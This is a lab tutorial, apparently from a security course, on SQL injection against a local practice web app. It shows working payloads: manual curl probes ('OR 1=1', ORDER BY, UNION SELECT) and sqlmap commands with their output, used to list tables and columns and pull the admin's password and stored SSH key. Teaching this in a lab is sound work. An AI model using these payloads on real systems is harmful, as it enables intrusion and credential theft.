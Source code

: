 # Lab Overview

In this lab, we will demonstrate the use of `sqlmap` (a popular Kali tool for SQLi)

## Requirements

This tutorial requires you have Kali Linux and an elementary understanding of SQLi

## Mission

Given an endpoint, http://localhost:3000/authenticate/{username}, as provided by [ta git repooo],
we must find a way to acquire the admin user's secret ssh key. It's stored in the database, but
we don't know where.

If at any point you are stuck and don't want to read ahead in this guide for spoilers, a braver
alternative is to read the source code of the web app and try a whitebox approach to finding
the vulnerabilities.

# How to download / run the app

Run these commands to run the server:

```
sudo apt-get install -y nodejs npm
git clone teehee && cd
npm install
npm start
```

# Hunting for SQLi

Before we get started, let's look at how we are supposed to interact with this application
according to the instructions provided in the README:

```
$ curl http://localhost:3000/authenticate/funguy -X POST --data '&password=mypass'  
{"username":"funguy","password":"mypass"}
```

So the username (in this case `funguy`) is provided in the URL, and the password is provided
as the POST body. Great!

First, we'll do a quick manual sanity check to see if any of the parameters are injectable.
Let's try the oldest trick in the book, testing unescaped quotation. Our goal is to snatch
the SSH key of `admin`, but since we don't know what the column name for the SSH key is
in the database, for now we'll just try stealing another user's password via injection

Instead of passing our password, which is `mypass`, we'll try passing `mypass' OR 1=1--`.

```
$ curl http://localhost:3000/authenticate/funguy -X POST --data "&password=mypass' OR 1=1--"
{"username":"funguy","password":"mypass"}
```

The query works, implying that the additional SQL code executed just fine! However, it still gives
us the same user as before. Hmm, let's try reversing the order using SQL's `ORDER BY` keyword:

```
curl http://localhost:3000/authenticate/funguy -X POST --data "&password=mypass' OR 1=1 ORDER BY username ASC--" 
{"username":"admin","password":"iLuv2Code"}
```

Great! So we can get the username and password for admin. But remember, we want the SSH key! We just need to know the column name. If there was only a tool to help us...

# Mapping the DBMS with SQLMap

sqlmap is a tool provided with Kali Linux that helps us find out information about an SQL DBMS and
facilitate SQL injection. Let's try to use it to get the missing column name. First, we need to get the name of the table which contains the missing column with our coveted secret:

```
python3 sqlmap.py -u 'http://localhost:3000/authenticate/admin' --method=POST -p 'password' --data='password=ssd' --tables --level=3 --risk=3
[23:30:51] [INFO] the back-end DBMS is SQLite
web application technology: Express
back-end DBMS: SQLite
[23:30:51] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[1 table]
+-------+
| users |
+-------+
```

Great, now that we know the table name is `users`, we can find the column names:

```
sqlmap-dev % python3 sqlmap.py -u 'http://localhost:3000/authenticate/admin' --method=POST -p 'password' --data='password=' -T users --columns --level=3 --risk=3
...
[23:37:23] [INFO] fetching columns for table 'users' 
Database: <current>
Table: users
[3 columns]
+----------+------+
| Column   | Type |
+----------+------+
| password | TEXT |
| ssh_key  | TEXT |
| username | TEXT |
+----------+------+
```

# Exploiting

Now that we know that the missing column is called `ssh_key`. Now we can use a simple `UNION` to get the ssh_key
instead of the password via the payload `' UNION SELECT username, ssh_key FROM users WHERE username='admin';--'`, like so:

```
curl http://localhost:3000/authenticate/funguy -X POST --data "&password=' UNION SELECT username, ssh_key FROM users WHERE username='admin';--'"
{"username":"admin","password":"dGhpcyBpcyB0b3RhbGx5IGxlZ2l0IGJybw=="}
